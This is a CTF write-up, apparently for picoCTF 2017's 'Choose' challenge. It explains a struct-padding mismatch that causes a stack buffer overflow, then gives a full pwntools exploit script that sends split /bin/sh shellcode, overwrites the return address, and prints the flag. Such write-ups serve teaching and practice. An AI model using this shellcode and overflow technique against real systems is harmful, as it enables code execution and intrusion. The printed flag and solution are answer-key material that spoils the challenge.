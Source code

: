 The vulnerability was a wrong assumption that a group of structs were the same size in memory. Specifically, the programmer assumed that these structs were the same size (`0x14 bytes`):

```
#define ENEMNAMELEN 12

typedef struct _orc{
    char type;
    short damage;
    int health;
    char name[ENEMNAMELEN];
} orc;

typedef struct _unicorn{
    char type;
    int health;
    short damage;
    char name[ENEMNAMELEN];
} unicorn;

```

Although both structs contain the same fields with the same types, they are specified in a different order. Therefore, due to struct packing the  `unicorn`  struct actually occupies  `0x18 bytes`. The memory structures are as follows:

```
orc (0x14 bytes):

[ type ][ xxxx ][ damage       ]
[ health                       ]
[ name                         ]
[ name                         ]
[ name                         ]

unicorn (0x18 bytes):

[ type ][ xxxxxxxxxxxxxxxxxxxx ]
[ health                       ]
[ damage       ][ xxxxxxxxxxxx ]
[ name                         ]
[ name                         ]
[ name                         ]

```

Notice how the  `unicorn`  struct is unable to pack the  `char`  and  `short`  fields into one 4-byte space because the  `int health`  must be aligned.

Then later, the following array was created to store user-controlled enemy struct data:

```
#define NUMMONSTERS 11
#define ENEMSIZE sizeof(orc)

char enemies[ENEMSIZE * NUMMONSTERS];

```

This error allowed an attacker to craft an input that caused a buffer overflow onto a saved return address. For example, if the attacker specified all unicorns, the storage functions would overflow the  `enemies`array.

The return address could be overwritten with the address of shellcode placed on the stack.

ASLR was disabled so it was possible to hard-code the stack address that held our shellcode. However, in order to find it, you could simply use existing functionality in the program. See the following lines:

```
void printEnemy(char * enemy){
    ...
    if(ctfer.wizardSight){
        printf("Your sight shows the enemy at %p\n", enemy);
    }
}

```

So if we had  `wizardSight`, the program would print out stack addresses. How do we get that?

```
void processWinnings(char type){
    switch(type){
        ...
        case 'T':
        case 't':
            printf("You found %s\n", winnings[5]);
            ctfer.wizardSight = 1;
            break;
        ...
    }
}

```

Ok, so in order to get a stack address, we simply have to fight a troll and beat it. Then we can calculate the offset to the first name buffer where we will store our shellcode.

However, we quickly run into a problem: the name buffer only stores  `12 bytes`  and there is no way we can fit exexcve shellcode into that small a buffer. However, we have  `11`  name buffers to use.

My solution was to use something I call "leapfrog shellcode" for lack of a better name. Basically, I split the shellcode into  `<10 byte`  sections (making sure to keep instructions intact). Then I appended short jump instructions that would jump to the next name buffer where execution could continue.

In memory that looked like this:

```
enemy 1:  [junk]
          [junk]
          [junk]
          [shellcode]      <-- start address
          [shellcode]
          [shellcode jmp] -.
enemy 2:  [junk]           |
          [junk]           | skip the struct junk
          [junk]           |
          [shellcode] <----'
          [shellcode]
          [shellcode jmp]

etc...

```

# Script

[**exploitChoose.py**](https://github.com/hgarrereyn/Th3g3ntl3man-CTF-Writeups/raw/00b7c0f4229784ec935e2defcf470bc25ef3fa9b/2017/picoCTF_2017/problems/binary/Choose/exploitChoose.py)

```
# By Harrison Green <hgarrereyn>

from pwn import *

# Found on shell-storm.org:
# http://shell-storm.org/shellcode/files/shellcode-811.php

# Shellcode (/bin/sh on 32 bit)
# 08048060 <_start>:
 # 8048060: 31 c0                 xor    %eax,%eax
 # 8048062: 50                    push   %eax
 # 8048063: 68 2f 2f 73 68        push   $0x68732f2f
 # 8048068: 68 2f 62 69 6e        push   $0x6e69622f
 # 804806d: 89 e3                 mov    %esp,%ebx
 # 804806f: 89 c1                 mov    %eax,%ecx
 # 8048071: 89 c2                 mov    %eax,%edx
 # 8048073: b0 0b                 mov    $0xb,%al
 # 8048075: cd 80                 int    $0x80
 # 8048077: 31 c0                 xor    %eax,%eax
 # 8048079: 40                    inc    %eax
 # 804807a: cd 80                 int    $0x80

# Relative jump:
#  EB CB - where CB is a signed integer to be added to eip


# Modified leapfrog shellocode with added short jumps:

### Name 1
# 31 c0
# 50
# 68 2f 2f 73 68
name1 = '\x31\xc0\x50\x68\x2f\x2f\x73\x68' + '\xeb\x0e'

### Name 2
# 68 2f 62 69 6e
# 89 e3
# 89 c1
name2 = '\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1' + '\xeb\x0d'

### Name 3
# 89 c2
# b0 0b
# cd 80
# 31 c0
name3 = '\x89\xc2\xb0\x0b\xcd\x80\x31\xc0' + '\xeb\x0e'

### Name 4
# 40
# cd 80
name4 = '\x40\xcd\x80'


# Heap layout:
# <name 1 : 12 bytes>
# <junk : 12 bytes>
# <name 2 : 12 bytes> ...


sock = remote('shell2017.picoctf.com', 47601)

# Select 11 unicorns
sock.send(('u\n' * 11))

# Add shellcode
sock.send(name1 + '\n')
sock.send(name2 + '\n')
sock.send(name3 + '\n')
sock.send(name4 + '\n')

# Fill the rest of the names
for i in range(6):
    sock.send('name\n')

# jump to shellcode by overwriting the return address with 0xffffdb9a
sock.send('aa' + '\x9a\xdb\xff\xff' + '\n')

# flee unicorns
sock.send(('f\n' * 11))

# flee dragon
sock.send(('f\n' * 6))

# Game exits but actually jumps to shellcode

# We've got shell
sock.interactive()
```

So, the flag is `c3b7d7d3659f98d19c8a510718e45575`
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTUxNTc3OTEwOV19
-->